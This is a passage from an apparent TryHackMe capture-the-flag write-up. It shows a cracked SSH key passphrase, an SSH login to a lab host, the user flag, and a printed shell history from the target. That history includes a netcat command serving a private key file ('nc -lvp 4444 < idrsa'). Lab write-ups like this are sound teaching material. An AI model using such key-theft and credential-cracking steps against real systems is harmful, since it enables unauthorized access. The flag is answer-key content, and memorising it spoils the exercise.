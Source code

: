 <div align="center">
  <img src="john_hash_isa.png" alt="John the Ripper Output" width="800"/>
</div>

- **Passphrase key:** `rockinroll`

Login via SSH:

```bash
ssh -p 22 -i id_rsa john@10.201.35.151
```

<div align="center">
  <img src="ssh_login.png" alt="SSH Login" width="800"/>
</div>

---

## User Flag
- **User flag:** `THM{a_password_is_not_a_barrier}`

<div align="center">
  <img src="user_flag.png" alt="User Flag" width="800"/>
</div>

---

## Privilege Escalation

Check the history file:

```bash
history
```

```
    1  ls
    2  cat user.txt 
    3  cat idrsa
    4  ls
    5  cat idrssa.pu
    6  cat idrsa.pub 
    7  ls .ssh
    8  rm idrsa
    9  rm idrsa.pub 
   10  clear
   11  sudo -l
   12  su root
   13  exit
   14  sl
   15  l
   16  ls
   17  ssh-keygen -t rsa
   18  ls
   19  ssh-keygen -t rsa
   20  ls
   21  cd ..
   22  ls
   23  cat idrsa
   24  ls
   25  python -m SimpleHTTPServer
   26  ifconfig
   27  python -m SimpleHTTPServer
   28  nc -lvp 4444 < idrsa
   29  ls
   30  apt search ssh
```